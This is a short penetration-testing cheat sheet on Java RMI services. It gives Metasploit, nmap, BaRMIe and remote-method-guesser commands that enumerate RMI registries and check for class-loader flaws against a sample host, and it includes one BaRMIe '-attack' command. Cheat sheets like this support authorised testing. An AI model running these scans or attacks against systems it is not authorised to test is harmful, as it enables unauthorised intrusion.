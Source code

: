 # Java RMI

## Enumerate

Check if class loader is enabled:

```text
msf > use auxiliary/scanner/misc/java_rmi_server
msf > set RHOSTS file:java_rmi.txt
msf > set THREADS 25
msf > run
```

Dump registry with MSF:

```text
msf > use auxiliary/gather/java_rmi_registry
msf > set RHOSTS file:java_rmi.txt
msf > run
```

Dump registry with Nmap:

```text
$ sudo nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" 10.10.13.37 -p1098
```

## BaRMIe

* [https://github.com/NickstaDB/BaRMIe](https://github.com/NickstaDB/BaRMIe)

```text
$ java -jar BaRMIe.jar -enum 10.10.13.37 1098
$ java -jar BaRMIe.jar -attack 10.10.13.37 1098
```

## remote-method-guesser

* [https://github.com/qtc-de/remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)

```text
$ java -jar rmg-3.0.0-jar-with-dependencies.jar 10.10.13.37 1098 enum
```

## rmiscout

* [https://github.com/BishopFox/rmiscout](https://github.com/BishopFox/rmiscout)

